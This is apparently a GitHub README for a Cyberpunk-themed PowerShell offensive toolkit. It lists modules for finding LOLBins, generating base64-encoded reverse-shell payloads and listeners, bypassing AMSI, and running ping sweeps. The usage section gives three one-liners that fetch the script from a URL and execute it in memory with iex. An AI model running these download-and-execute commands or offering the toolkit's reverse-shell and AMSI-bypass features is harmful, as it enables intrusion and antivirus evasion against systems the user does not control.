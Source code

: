 <div align="center" style="display:flex;">
  <img src="https://github.com/h0ru/antiarasaka/assets/117091833/c5e7af4a-d7b7-484e-be27-ea9fbed97749" width="800">
</div>

- - - 

> [!Warning]
> **This program was written and designed for educational purposes, with features associated with the world of Cyberpunk 2077.** \
> **The project's author does not take responsibility for any use of the tool and maintains its use strictly for educational purposes.**

- - -

> [!NOTE] 
> **This tool explores ideas that have already been developed in my previous projects, but it was created to optimize and also motivate me to create something larger.**\
> **Being a fan of the Cyberpunk 2077 story, I sought inspiration in "something" that could counter Arasaka. So here is the idea: AntiArasaka T00l K1t.**

- - -

### What will you find here?

```
aka.ps1
├──AntiArasaka-Alias               # Similar to Get-Alias
├──AntiArasaka-Help                # Similar to Get-Help
├──LOLBins Finder             
|  └──AntiArasaka-Binaries         # Based on LOLBAS Projetct
├──Generator RevShell & Listener           
|  ├──AntiArasaka-Listener         # Native powershell listenerr 
|  └──AntiArasaka-Payload          # PowerShell paylaod base64 encoded
├──AMSI-Reaper
|  └──AntiArasaka-Reaper           # Based on my project AMSI-Reaper
└──PSWEEPX
   └──AntiArasaka-Sweep            # Based on my project PSWEEPX from icmp-quickhacks
```

- - -

### How to use?

> [!TIP]
> #### _Less DISK, more RAM_
```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1')
```
```
iex (iwr https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```
```
iex (irm https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```

- - -

